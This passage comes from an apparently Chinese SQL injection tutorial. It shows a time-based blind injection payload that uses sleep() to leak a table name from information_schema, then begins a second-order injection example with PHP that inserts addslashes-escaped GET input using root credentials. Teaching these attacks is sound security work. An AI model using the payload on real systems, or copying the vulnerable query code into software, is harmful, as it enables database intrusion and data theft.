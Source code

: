 ![](../../../.gitbook/assets/tu-pian%20%2876%29.png)

我们可以看到数据已经注入进数据库了，我们也可以利用`sleep()` 等函数，将判断语句加入POC来得到我们想要的信息。

```text
1'; select if (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1) = 't', sleep(3),1) --+
```

我们执行过后，发现程序延时了`3` 秒，说明数据库名称第一位为`t` ，此内容已在上文详细阐述，此处不再重复。

![](../../../.gitbook/assets/tu-pian%20%28106%29.png)

**二次注入：**

为了防止sql注入的产生，很多开发人员会对数据进行转义操作，然而如果在取出时，没有做相应的操作，就会产生二次注入的风险。

如下代码：

```text
<?php
header("Content-Type:text/html;charset=utf8");
$con=mysqli_connect("localhost","root","root","test");
mysqli_set_charset($con,'utf8');
if(!$con){
    echo "Connect failed : ".mysqli_connect_error();
}

$username=$_GET['username'];
$password=$_GET['password'];
$result=mysqli_query($con,"insert into users(username,password) values('".addslashes($username)."','".md5($password)."')");
echo "id为:".mysqli_insert_id($con)
?>
```
